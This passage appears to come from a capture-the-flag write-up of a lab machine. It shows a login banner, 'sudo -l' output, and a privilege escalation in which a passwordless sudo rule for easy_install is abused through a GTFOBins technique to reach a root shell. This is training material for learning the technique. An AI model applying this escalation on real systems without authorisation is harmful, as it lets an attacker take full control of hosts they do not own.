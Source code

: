```bash
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9859                                                             
                                                                                                                   
 * Super-optimized for small spaces - read how we shrank the memory                                                
   footprint of MicroK8s to make it the smallest full K8s around.                                                  
                                                                                                                   
   https://ubuntu.com/blog/microk8s-memory-optimisation                                                            
                                                                                                                   
8 updates can be applied immediately.                                                                              
8 of these updates are standard security updates.                                                                  
To see these additional updates run: apt list --upgradable                                                         
                                                                                                                   
                                                                                                                   
The list of available updates is more than a week old.                                                             
To check for new updates run: sudo apt update                                                                      
                                                                                                                   
Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36                                                              
developer@updown:~$
```
{: .nolineno }

# Privilege Escalation

First thing first, let’s see what developer can run as  root with `sudo -l`.

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```
{: .nolineno }

so without password, we can run a software under `/usr/local/bin/easy_install`.

After some googling we found [this](https://gtfobins.github.io/gtfobins/easy_install/). Which seems pretty simple to exploit.

```bash
developer@updown:/usr/local/bin$ sudo easy_install $TF                                                             
WARNING: The easy_install command is deprecated and will be removed in a future version.                           
Processing tmp.iOrikFXoxN                                                                                          
Writing /tmp/tmp.iOrikFXoxN/setup.cfg                                                                              
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.iOrikFXoxN/egg-dist-tmp-T0uWJa                                   
# whoami                                                                                                           
root
```